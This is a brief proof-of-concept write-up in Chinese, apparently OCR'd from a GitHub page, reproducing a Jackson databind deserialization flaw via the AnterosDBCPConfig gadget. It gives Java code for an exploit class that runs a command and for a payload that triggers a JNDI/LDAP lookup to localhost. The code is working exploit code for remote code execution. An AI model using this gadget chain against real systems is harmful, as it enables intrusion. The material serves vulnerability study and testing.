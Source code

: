 漏洞利用
--------

編譯Exploit.java:

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

搭建HTTP服務 使用Python搭建簡易SimpleHTTPServer服務：

搭建LDAP服務 使用marshalsec來啟動一個LDAP服務：

執行漏洞POC1 Poc.java代碼如下所示：

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
           ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"br.com.anteros.dbcp.AnterosDBCPConfig\", {\"metricRegistry\":\"ldap://127.0.0.1:1099/Exploit\"}]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之後運行該程序，成功執行命令，彈出計算器